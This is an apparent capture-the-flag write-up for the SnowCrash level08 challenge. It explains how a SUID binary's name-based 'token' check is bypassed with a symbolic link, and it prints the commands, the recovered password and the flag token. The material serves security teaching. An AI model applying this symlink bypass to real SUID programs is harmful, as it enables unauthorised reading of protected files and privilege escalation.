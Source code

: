 # Level08: Bypassing Filename Checks

## Vulnerability Analysis

Upon logging in as level08, we found the following files in the home directory:

```console
level08@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

This showed:

- An executable binary `level08` with SUID bit set (owned by flag08)
- A file called `token` with strict permissions (only readable by flag08)

## Binary Analysis

Using Ghidra to decompile the `level08` binary, the following C code snippet reveals that the program attempts to prevent access to files containing "token" in their name using `strstr`.

```c
  // Check if the filename contains "token"
  pcVar1 = strstr(argv[1], "token");
  if (pcVar1 != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(1);
    }
  // Open the file (vulnerable step)
  fd = open(argv[1], O_RDONLY);
  // ... read and print file content ...
```

The binary has the SUID bit set, meaning it runs with the privileges of its owner (flag08), which allows it to read files that the current user (level08) cannot access directly.

## The Vulnerability

The vulnerability lies in the naive string check: the program only checks if the string "token" appears in the filename argument, not whether the file being accessed is actually the token file.

This is a classic security issue where path validation is performed on the filename string rather than on the actual file identity (inode).

## Exploitation

We can bypass this check by creating a symbolic link to the token file with a name that doesn't contain the string "token":

```console
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/nekot
level08@SnowCrash:~$ ./level08 /tmp/nekot
quif5eloekouj29ke0vouxean
```

- `ln`: Creates links between files.

- `-s`: Creates a symbolic link (symlink) instead of a hard link. A symbolic link is like a shortcut that points to another file.

## Why This Works

1. The symbolic link `/tmp/nekot` points to the actual token file
2. When `level08` checks the filename, it sees "nekot" which doesn't contain "token"
3. The check passes, and the program proceeds to open the file
4. Because of the SUID bit, the program opens the file with flag08's privileges
5. After opening the file, the program reads and displays its contents

This is a classic example of the difference between validating the name of a resource versus validating the resource itself, a common security pitfall.

## Token

After reading the token file, we obtained: `quif5eloekouj29ke0vouxean`

This is the password for the flag08 user, not the actual token for the level. To get the token:

```console
level08@SnowCrash:~$ su flag08
Password: quif5eloekouj29ke0vouxean
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

The actual token for level08 is: `25749xKZ8L7DkSCwJkT9dyv6f`

This token allows access to the level09 user account.

## Security Lesson

This level demonstrates several important security concepts:

1. Path traversal vulnerabilities
2. The importance of proper file validation
3. How symbolic links can be used to bypass naive security checks
4. The risks associated with SUID binaries combined with inadequate input validation
